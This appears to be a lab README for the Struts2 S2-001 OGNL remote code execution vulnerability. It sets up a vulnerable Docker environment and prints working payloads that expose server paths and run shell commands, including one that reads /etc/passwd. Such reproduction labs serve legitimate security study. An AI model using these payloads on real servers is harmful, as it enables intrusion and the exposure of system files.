

S2-001 Remote Code Execution Vulnerability¶
Reference link¶
http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html
The vulnerability is that when the user submits the form data and the validation fails, the server parses the parameter values previously submitted by the user with the OGNL expression
%{value}and repopulates the corresponding form data.For example, in the registration or login page. When submit fail, server will generally return the previously submitted data by default. Since the server uses%{value}to execute an OGNL expression parsing on the submitted data, it can send payload directly to execute command.
Environment setup¶
Run the following commands to setup
docker compose build
docker compose up -d
POC && EXP¶
Get the tomcat path:
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
Get the web site real path:
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
Execute command (command with parameter:new java.lang.String[]{"cat","/etc/passwd"}):
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
